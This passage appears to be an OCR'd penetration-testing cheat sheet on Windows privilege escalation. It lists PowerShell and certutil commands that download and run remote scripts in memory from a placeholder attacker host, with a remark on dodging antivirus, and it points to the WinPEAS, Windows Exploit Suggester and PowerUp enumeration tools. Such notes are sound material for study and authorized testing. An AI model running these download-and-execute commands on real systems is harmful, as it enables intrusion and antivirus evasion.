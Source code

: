 ### HTTP

Load script in memory
> May help bypass trivial anti-virus solutions
``` powershell
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/file')"
```
``` powershell
powershell.exe iex (iwr http://ip/file -usebasicparsing)
```

Save to disk
``` powershell
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://ip/file','C:\Users\Public\Downloads\file')"
```
``` powershell
powershell.exe -nop -ep bypass -c "IWR -URI 'http://ip/file' -Outfile '/path/to/file'"
```
> CMD or PowerShell
``` powershell
certutil -urlcache -f http://kali_ip/file file
```
## Automated Enumeration
### WinPEAS
WinPEAS can be found [here](https://github.com/carlospolop/PEASS-ng/releases)

For color, first apply below registry settings and then spawn a new shell
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

``` powershell
.\winpeasany.exe quiet
```

### Exploit suggester
This works well with older machines

Windows exploit suggester can be found [here](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
This script will be executed on Kali. First take the `systeminfo` info, paste it in a file

An update may be required, it will generate the Excel file necessary
``` powershell
.\windows-exploit-suggester.py --update
```

Find vulns
``` powershell
.\windows-exploit-suggester.py -i systeminfo.txt -d 2022-xxx.xlsx
```

### PowerUp
PowerUp can be found [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)<br>
Although not entirely allowed, we can leverage its `Invoke-AllChecks` function to quickly find escalation points

